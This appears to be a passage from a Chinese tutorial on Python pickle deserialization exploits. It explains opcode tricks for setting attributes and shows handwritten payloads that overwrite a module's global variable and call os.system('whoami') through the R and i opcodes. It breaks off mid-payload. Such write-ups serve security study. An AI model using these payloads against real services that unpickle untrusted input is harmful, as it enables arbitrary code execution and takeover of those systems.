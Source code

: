 再看源码，如果 `state` 是两个元素的元组，那么会执行 `state, slotstate = state`，如果此时 `state in [None, {}]`（由于 `_pickle` 逻辑问题，是没办法让 state 等于 `''`、`0` 等这种值的），那么就会跑去执行 `setattr(inst, k, v)`，这是 mappingproxy 类型允许的

所以，假如有一个库是 A，里面有个类 b，要修改 b 的属性，原本要执行的 `cA\nb\n}Va\nI1\nsb.` 应该改为 `cA\nb\n(N}Va\nI1\ntsb.` 或者 `cA\nb\n(}}Va\nI1\ntsb.`

>#### 拼接opcode
>
>将第一个pickle流结尾表示结束的 `.` 去掉，将第二个pickle流与第一个拼接起来即可。
>
>#### 全局变量覆盖
>
>python源码：
>
>```
># secret.py
>name='TEST3213qkfsmfo'
># main.py
>import pickle
>import secret
>
>opcode='''c__main__
>secret
>(S'name'
>S'1'
>db.'''
>
>print('before:',secret.name)
>
>output=pickle.loads(opcode.encode())
>
>print('output:',output)
>print('after:',secret.name)
>```
>
>首先，通过 `c` 获取全局变量 `secret` ，然后建立一个字典，并使用 `b` 对secret进行属性设置，使用到的payload：
>
>```
>opcode='''c__main__
>secret
>(S'name'
>S'1'
>db.'''
>```
>
>#### 函数执行
>
>与函数执行相关的opcode有三个： `R` 、 `i` 、 `o` ，所以我们可以从三个方向进行构造：
>
>1. `R` ：
>
>```
>b'''cos
>system
>(S'whoami'
>tR.'''
>```
>
>1. `i` ：
>
>```
>b'''(S'whoami'
>ios
>system